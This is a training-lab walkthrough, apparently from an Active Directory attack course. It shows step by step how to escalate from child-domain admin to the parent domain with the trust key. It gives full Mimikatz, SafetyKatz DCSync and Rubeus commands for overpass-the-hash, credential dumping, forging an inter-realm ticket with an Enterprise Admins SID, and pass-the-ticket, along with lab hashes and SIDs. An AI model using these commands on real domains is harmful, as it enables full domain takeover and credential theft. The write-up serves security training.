









# Hands-on 20: Cross Domains Attacks - Trust Key

- [Hands-on 20: Cross Domains Attacks - Trust Key](#hands-on-20-cross-domains-attacks---trust-key)
  - [Task](#task)
  - [Using DA access to us.techcorp.local, escalate privileges to Enterprise Admin or DA to the parent domain, techcorp.local using the domain trust key](#using-da-access-to-ustechcorplocal-escalate-privileges-to-enterprise-admin-or-da-to-the-parent-domain-techcorplocal-using-the-domain-trust-key)

---

## Task

Using DA access to us.techcorp.local, escalate privileges to Enterprise Admin or DA to the parent domain, techcorp.local using the domain trust key.

<br/>

---

## Using DA access to us.techcorp.local, escalate privileges to Enterprise Admin or DA to the parent domain, techcorp.local using the domain trust key

The steps of becoming Domain Admins of `us` is in [Hands-on 11: Unconstrained Delegation](l11-UnconstrainedDelegation.md).

As a result, in an elevated shell, use Over pass-the-hash to create a powershell session:

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```

```
. C:\AD\Tools\Invoke-Mimikatz.ps1; Invoke-Mimikatz -Command '"sekurlsa::pth /domain:us.techcorp.local /user:administrator /aes256:db7bd8e34fada016eb0e292816040a1bf4eeb25cd3843e041d0278d30dc1b335 /run:powershell.exe"'
```

  

<br/>

In the spawned shell, perform a DCSync to obtain the trust key (NTLM of `techcorp$`):

```
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:us\techcorp$" "exit"
```

  

Note:
techcorp$
- SID: `S-1-5-21-210670787-2521448726-163245708-1103`
- NTLM: `141575e2fb5277f5f4525cae4d410968`
- AES256: `516cdf14d60f39d0dce08336efc1c7047d987f73fd21257bca6bf1b9786e5ead`

<br/>

Forge an inter-realm TGT:

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```

```
. C:\AD\Tools\Invoke-Mimikatz.ps1; Invoke-Mimikatz -Command '"kerberos::golden /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /sids:S-1-5-21-2781415573-3701854478-2406986946-519 /rc4:141575e2fb5277f5f4525cae4d410968 /user:Administrator /service:krbtgt /target:techcorp.local /ticket:C:\AD\Tools\trust_tkt.kirbi"'
```

  


<br/>

Then use `Rubeus.exe` to request TGS:

```
C:\AD\Tools\Rubeus.exe asktgs /ticket:trust_tkt.kirbi /service:cifs/techcorp-dc.techcorp.local /dc:techcorp-dc.techcorp.local /ptt
```

  

<br/>

Try to list `techcorp-dc`'s root:

```
ls \\techcorp-dc.techcorp.local\C$
```

  


<br/>

To get WinRM:

```
C:\AD\Tools\Rubeus.exe asktgs /ticket:C:\AD\Tools\trust_tkt.kirbi /service:HTTP/techcorp-dc.techcorp.local,HOST/techcorp-dc.techcorp.local /dc:techcorp-dc.techcorp.local /ptt
```

  

  

<br/>

Access Forest DC:

```
winrs -r:techcorp-dc.techcorp.local cmd.exe
```

  

<br/>

However error occurs when running any command.

  

